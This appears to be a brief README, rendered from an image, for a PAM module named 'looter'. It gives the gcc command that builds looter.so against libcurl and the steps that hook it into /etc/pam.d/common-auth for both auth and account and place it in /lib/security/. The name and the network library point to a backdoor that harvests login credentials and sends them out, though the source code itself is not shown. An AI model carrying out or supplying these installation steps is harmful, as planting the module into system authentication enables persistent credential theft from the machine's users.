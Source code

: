 compile : gcc  -Wall -fPIC -shared -Xlinker -x -o looter.so looter.c -lcurl

in /etc/pam.d/common-auth add :

auth optional looter.so

account optional looter.so

then put the looter.so into /lib/security/

relation:
libcurl4-openssl-dev
libpam0g-dev

